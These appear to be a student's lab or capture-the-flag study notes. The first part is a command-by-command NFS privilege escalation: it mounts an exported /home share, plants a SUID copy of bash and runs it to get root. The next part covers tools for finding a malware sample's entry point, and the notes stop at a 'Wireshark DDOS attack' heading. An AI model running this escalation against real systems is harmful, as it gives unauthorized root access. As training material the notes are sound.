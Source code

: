 * `nmap -sV —p 2049 IP/Subnet`
* `sudo apt-get install nfs-common`
* `nmap -sV —script=nfs-showmount <Target_IP>`
* check available mounts: `showmount -e <Target_IP>` -> we will see /home directory
* `mkdir /tmp/nfs`
* `sudo mount -t nfs 10.10.1.9:/home /tmp/nfs`
* `cd /tmp/nfs`
* `sudo cp /bin/bash .`
* `sudo chmod +s bash` -> it will be highlighted in red
* `ls -la`
* `sudo df -h`
* `sudo chmod +s bash`

after them, In another terminal:

* Access to target using SSH
ssh smith@192.168.0.x
* `./bash -p` and we're root!
* `cd /home`
* `ls -la`
* Find the flag: `find / -name "*.txt" -ls 2> /dev/null`
-----------------------------------------------------------------------------
Malware analysis “die-another day". 


### Identify malware entry point address

#### [PEiD](https://softfamous.com/peid/) (suggested)

* If tool is not alreay on system, Download PEiF tool -> 
[https://softfamous.com/peid/](https://softfamous.com/peid/)
* Execute PEiD tool
* Upload malware executable
* See entry point address

#### **PEView**

* If tool is not alreay on system, Download PEView tool
* Execute tool
* Upload malware executable
* Look for the "Optional Header" section within the PEView interface. 
In this section, you should find the "AddressOfEntryPoint" field, 
which represents the entry point of the executable. Note the hexadecimal value displayed in the 
"AddressOfEntryPoint" field. This is the entry point address of the executable.

#### Detect it easy

* Execute Detect it easy client tool
* Upload malware executable
* Click to File info
* See entry point address

-----------------------------------------------------------------------------
Wireshark DDOS attack
